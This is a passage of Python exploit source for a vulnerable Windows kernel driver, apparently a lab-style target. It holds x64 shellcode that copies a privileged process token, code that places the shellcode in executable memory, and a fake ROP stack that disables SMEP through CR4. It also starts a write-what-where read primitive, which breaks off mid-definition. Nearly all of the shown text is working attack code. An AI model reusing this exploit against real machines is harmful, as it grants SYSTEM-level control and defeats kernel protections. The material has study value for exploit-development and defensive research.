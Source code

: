 ```python
        b"\x48\x83\xf9\x04"                  # cmp    rcx,0x4
        b"\x75\xe5"                          # jne    13 <_loop>
        b"\x48\x8b\x8b\xb8\x04\x00\x00"      # mov    rcx,QWORD PTR [rbx+0x4b8]
        b"\x80\xe1\xf0"                      # and    cl,0xf0
        b"\x48\x89\x88\xb8\x04\x00\x00"      # mov    QWORD PTR [rax+0x4b8],rcx
        b"\x48\x89\xec"                      # mov    rsp,rbp
        b"\x48\x81\xec\x18\x01\x00\x00"      # sub    rsp,0x118
        b"\x48\x31\xc0"                      # xor    rax,rax
        b"\xc3"                              # ret
    )

    windll.kernel32.VirtualAlloc.restype = c_void_p
    shellcode_buff = windll.kernel32.VirtualAlloc(0, len(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)

    if shellcode_buff == 0:
        printf('Failed to allocate buffer for shellcode')
        return -1

    tmp_c_buffer = (c_char * len(shellcode)).from_buffer(shellcode)

    windll.kernel32.RtlMoveMemory.argtypes = [c_void_p, c_void_p, c_ulong]
    windll.kernel32.RtlMoveMemory(shellcode_buff, tmp_c_buffer, len(shellcode))

    fake_stack = bytearray(struct.pack('<Q', g_pop_rcx_addr))
    fake_stack += struct.pack('<Q', cr4_smep_disabled)
    fake_stack += struct.pack('<Q', g_mov_cr4_rcx_addr)
    fake_stack += struct.pack('<Q', shellcode_buff)

    buffer = windll.kernel32.VirtualAlloc(0x00ffffff, FAKE_STACK_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
    
    if buffer == 0:
        print('Failed to allocate fake stack buffer')
        return -1

    # The fake stack will be actually in the middle of the big chunk we allocated
    fake_stack_ptr = buffer + int(FAKE_STACK_SIZE / 2)

    if fake_stack_ptr > 0xffffffff:
        print('Fake stack pointer is larger than 2^32')
        return -1

    # The following lines will just move the values in the fake_stack variable to the actual fake stack we allocated with VirtualAlloc
    tmp_c_buffer = (c_char * len(fake_stack)).from_buffer(fake_stack)
    windll.kernel32.RtlMoveMemory(fake_stack_ptr, tmp_c_buffer, len(fake_stack))

    return fake_stack_ptr


# Exploit the vulnerability to read from arbitrary addresses
def read(where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
```